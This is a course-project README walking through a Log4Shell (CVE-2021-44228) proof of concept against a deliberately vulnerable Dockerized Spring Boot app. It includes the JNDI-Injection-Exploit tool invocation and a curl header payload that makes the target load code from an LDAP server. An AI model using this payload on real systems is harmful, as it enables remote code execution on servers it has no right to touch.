


# CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:



## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call



## Exploitation

Now, we just need to call the app and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#1. Notice that we are including the endpoint given by the exploitation tool in the previous step (vqwfzl)
#2. The name of the header does not matter because the app will log all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server that is running under the exploitation tool which ultimately executed the given command.

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app
